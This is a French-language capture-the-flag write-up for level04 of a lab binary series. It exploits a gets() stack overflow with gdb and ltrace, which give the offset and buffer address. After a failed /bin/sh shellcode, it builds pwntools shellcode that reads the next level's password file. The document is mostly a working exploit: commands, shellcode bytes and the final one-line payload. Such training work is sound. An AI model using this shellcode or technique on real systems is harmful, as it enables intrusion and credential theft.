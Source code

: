 # Level 04
<a href="/level05"><img align='right' width=20x height=auto src="https://cdn.onlinewebfonts.com/svg/img_68680.png"></img></a>

- Dans le child il y a un gets donc sans limite
- On recupere donc le offset pour pouvoir l'overflow
<pre>
$> gdb ./level04 
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA')
Starting program: /home/alarm/42/override/level04/Ressources/level04 < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA')
[----------------------------------registers-----------------------------------]
ESP: 0xffffd5a0 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
<strong>EIP: 0x71414154 ('TAAq')</strong>
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x71414154
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x71414154 in ?? ()
gdb-peda$ pattern offset TAAq
<strong>TAAq found at offset: 156</strong>
</pre>

- On recupere ensuite l'addresse de notre futur shellcode
<pre>
$> echo a | ltrace -f ./level04 1>&-
[pid 1737] \_\_libc_start_main(0x80486c8, 1, -10540, 0x8048830, 0x80488a0 <unfinished ...>
[pid 1737] signal(14, 0x0804868f)                                      = NULL
[pid 1737] alarm(60)                                                   = 0
[pid 1737] fork()                                                      = 1738
[pid 1737] wait(0xffffd59c <unfinished ...>
[pid 1738] <... fork resumed> )                                        = 0
[pid 1738] prctl(1, 1, 0, 0xf7e2fe44, 2944)                            = 0
[pid 1738] ptrace(0, 0, 0, 0, 2944)                                    = -1
[pid 1738] puts("Give me some shellcode, k")                           = 26
<strong>[pid 1738] gets(-10848, 0, 0, 0, 2944)                                 = -10848</strong>
[pid 1738] +++ exited (status 0) +++
[pid 1737] --- SIGCHLD (Child exited) ---
[pid 1737] <... wait resumed> )                                        = 1738
[pid 1737] puts("child is exiting...")                                 = 20
[pid 1737] +++ exited (status 0) +++
$> printf '%x\n' -10848
ffffffff<strong>ffffd5a0</strong>
</pre>

- Quand on met un shellcode basique, le programme nous dit que les exec sont interdit
```
$> (python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (156 - 21) + struct.pack('<I', 0xffffd5a0))") | ./level04 
Give me some shellcode, k
no exec() for you
```

- On genere donc un shellcode qui print le fichier directement
<pre>
>>> pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass'))
b'jsh.pashl05/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80'
>>> len('jsh.pashl05/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80')
62
</pre>

- Assemblé cela donne cette commande
```
(python -c "import struct; print('jsh.pashl05/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80' + 'A' * (156 - 62) + struct.pack('<I', 0xffffd5a0))") | ./level04
```
